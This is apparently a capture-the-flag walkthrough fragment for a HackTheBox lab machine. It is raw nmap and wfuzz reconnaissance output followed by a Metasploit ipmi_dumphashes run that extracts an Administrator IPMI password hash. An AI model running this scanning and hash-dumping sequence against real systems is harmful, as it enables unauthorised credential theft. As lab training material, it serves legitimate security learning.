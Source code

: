 # Nmap 7.92 scan initiated Sun Dec  5 09:50:46 2021 as: nmap -sC -sV -A -T4 -oN nmap.txt 10.129.228.134
Nmap scan report for 10.129.228.134
Host is up (0.16s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://shibboleth.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=12/5%OT=80%CT=1%CU=34455%PV=Y%DS=2%DC=T%G=Y%TM=61AC3E3
OS:8%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST1
OS:1NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=Y%DF=Y%T=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=40%
OS:W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
OS:T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A
OS:=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%D
OS:F=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=4
OS:0%CD=S)

Network Distance: 2 hops
Service Info: Host: shibboleth.htb

TRACEROUTE (using port 8888/tcp)
HOP RTT       ADDRESS
1   176.45 ms 10.10.14.1
2   176.56 ms 10.129.228.134

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Dec  5 09:51:12 2021 -- 1 IP address (1 host up) scanned in 26.09 seconds


nmap -sC -sV -A -sU -T4 10.129.228.134 -oN nmap.txt                                                                                               
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-05 10:21 IST
Warning: 10.129.228.134 giving up on port because retransmission cap hit (6).
Stats: 0:12:30 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 80.20% done; ETC: 10:37 (0:03:05 remaining)
Stats: 0:16:02 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 99.99% done; ETC: 10:37 (0:00:00 remaining)
Nmap scan report for shibboleth.htb (10.129.228.134)
Host is up (0.18s latency).
Not shown: 986 closed udp ports (port-unreach)
PORT      STATE         SERVICE         VERSION
623/udp   open          asf-rmcp
1100/udp  open|filtered mctp
20120/udp open|filtered unknown
32776/udp open|filtered sometimes-rpc16
34758/udp open|filtered unknown
38615/udp open|filtered unknown
42639/udp open|filtered unknown
43195/udp open|filtered unknown
44923/udp open|filtered unknown
49180/udp open|filtered unknown
51690/udp open|filtered unknown
54114/udp open|filtered unknown
54807/udp open|filtered unknown
58640/udp open|filtered unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port623-UDP:V=7.92%I=7%D=12/5%Time=61AC4942%P=x86_64-pc-linux-gnu%r(ipm
SF:i-rmcp,1E,"\x06\0\xff\x07\0\0\0\0\0\0\0\0\0\x10\x81\x1cc\x20\x008\0\x01
SF:\x97\x04\x03\0\0\0\0\t");
Too many fingerprints match this host to give specific OS details
Network Distance: 2 hops

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   195.35 ms 10.10.14.1
2   195.49 ms shibboleth.htb (10.129.228.134)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1090.04 seconds

![image](https://user-images.githubusercontent.com/63084488/144736550-0fc4eec2-6925-47d9-b6b4-1416466f4823.png)



wfuzz -H "Host: FUZZ.shibboleth.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 290 --hc 302 http://shibboleth.htb/
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://shibboleth.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                    
=====================================================================

000000099:   200        29 L     219 W      3684 Ch     "monitor"                                                                                                                  
000000346:   200        29 L     219 W      3684 Ch     "monitoring"                                                                                                               
000000390:   200        29 L     219 W      3684 Ch     "zabbix"                                                                                                                   

Total time: 88.22547
Processed Requests: 4989
Filtered Requests: 4986
Requests/sec.: 56.54829


msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show actions

Auxiliary actions:

   Name  Description
   ----  -----------


msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > options

Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):

   Name                  Current Setting                                                    Required  Description
   ----                  ---------------                                                    --------  -----------
   CRACK_COMMON          true                                                               yes       Automatically crack common passwords as they are obtained
   OUTPUT_HASHCAT_FILE                                                                      no        Save captured password hashes in hashcat format
   OUTPUT_JOHN_FILE                                                                         no        Save captured password hashes in john the ripper format
   PASS_FILE             /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
   RHOSTS                                                                                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT                 623                                                                yes       The target port
   SESSION_MAX_ATTEMPTS  5                                                                  yes       Maximum number of session retries, required on certain BMCs (HP iLO 4, etc)
   SESSION_RETRY_DELAY   5                                                                  yes       Delay between session retries in seconds
   THREADS               1                                                                  yes       The number of concurrent threads (max one per host)
   USER_FILE             /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line

msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set RHOSTS shibboleth.htb
RHOSTS => shibboleth.htb
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set threads 10
threads => 10
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > options

Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):

   Name                  Current Setting                                                    Required  Description
   ----                  ---------------                                                    --------  -----------
   CRACK_COMMON          true                                                               yes       Automatically crack common passwords as they are obtained
   OUTPUT_HASHCAT_FILE                                                                      no        Save captured password hashes in hashcat format
   OUTPUT_JOHN_FILE                                                                         no        Save captured password hashes in john the ripper format
   PASS_FILE             /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
   RHOSTS                shibboleth.htb                                                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT                 623                                                                yes       The target port
   SESSION_MAX_ATTEMPTS  5                                                                  yes       Maximum number of session retries, required on certain BMCs (HP iLO 4, etc)
   SESSION_RETRY_DELAY   5                                                                  yes       Delay between session retries in seconds
   THREADS               10                                                                 yes       The number of concurrent threads (max one per host)
   USER_FILE             /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line

msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.129.228.134:623 - IPMI - Hash found: Administrator:5fc848fa820100002eeb192a99e29bd979c53735eadc040ebd88ff2ec56657f8fb461961e0bd8a1ea123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:828b49d276eb4edfc57cbebdd63a8e89c9765a41
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) 
